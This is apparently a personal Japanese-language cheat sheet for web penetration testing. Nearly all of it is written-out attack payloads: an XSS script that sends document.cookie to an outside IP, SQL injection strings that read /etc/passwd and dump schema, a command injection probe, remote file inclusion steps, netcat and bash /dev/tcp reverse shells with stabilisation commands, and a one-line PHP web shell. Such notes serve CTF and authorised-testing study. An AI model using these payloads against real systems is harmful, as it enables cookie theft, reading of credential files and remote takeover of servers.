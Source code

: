 # MyCheatSheet ver 1.0

* Decode ツール
  1. [CrackStation](https://crackstation.net/)
  2. [DenCode](https://dencode.com/ja/)
  3. [CyberChef](https://gchq.github.io/CyberChef/)
* XSS
  1. `'>"><hr>`を使用して水平線を表示
  2. `<script>alert(1)</script>`でアラート表示
  3. `<script>document.location="http://[ip address]/" + document.cookie</script>`でクッキーを外部に送信
* SQL Injection
  1. 入力値に`'`を入力してエラーの有無を検証
     1. エラーが帰らない場合もある。
     2. 表示されるエラーからドキュメントルート等のディレクトリ情報がある場合がある。
     3. `' union select version() ; #` でdbのバージョン表示  *MariaDB
     4. `' union select load_file('/etc/passwd'); #`　で`/etc/passwd`のファイル内を表示
     5. `' union select cloume_namefrom table_name into outfile '/data/mariadb/test.html' fields terminated by ',' optionally enclosed by '"'; #`でsqlの結果を/data/mariadb/test.htmlに出力(カンマ区切りで"で値を囲む)
     6. `' union select table_name,column_name from information_schema.columns; #` でテーブル名とカラム名を取得
* OS Command Injection
    1. 入力値のあとに`;ping -c 3 127.0.0.1`を入力して検証
* CSRF
    1. 正規のリクエストURLを使用してリンクを作成 (URL短縮サービス等を利用すると判別が困難になる。)
    2. 作成したリンクからリクエストが通るかを検証(Refererを検証)
    3. PoCジェネレーターを使用するとHTMLを簡単に作れる。
       [PoC Generrator](https://security.love/CSRF-PoC-Genorator/)
* File Inclusion(Remote)
    1. クエリストリングにファイル名があるかを確認
    2. phpinfo()を実行させるphpファイルを作成
    3. ローカルでhttpサーバを立てる`python -m http.server 1030`
    4. 攻撃したいURLの`file=`にローカルのphpファイルのパスを記述
* File Inclusion(Local)
    1. ファイルアップロード時にファイルパスを確認できるかを検証
* 遠隔からのシェル
  * ファイアウォールでインバウンド通信で接続とポートが許可されている場合はバインドシェルが可能
  * アウトバウンド通信は許可されている場合が多いためリバースシェルはファイアウォールを回避しやすい。
  * バインドシェル・リバースシェル netcatを使用
    1. 待ち受け　`nc -vlp 1027`
    2. 接続     `nc -v 192.168.XXX.XXX 1027 -e /bin/bash` (/bin/bashのところはwindowsならcmd.exe)
    3. ncがない場合の接続
       1. `bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1`
       2. `bash -c 'bash -i >& /dev/tcp/[IPアドレス/[ポート番号] 0>&1'`
    4. シェルの安定化
       1. `python3 -c 'import pty; pty.spawn("/bin/bash")'`
       2. `Ctrl-z`
       3. `stty raw -echo; fg`
       4. `export SHELL=[your shell]`
       5. `export TERM=[your terminal]`
  * Webシェル
    1. 入力を待ち受けできるphpファイルを作成しFile Uploadの脆弱性を利用しアップロード
    2. アップしたphpファイルを利用してweb経由でコマンド実行
        `<?php system($_GET["cmd"]); ?>`
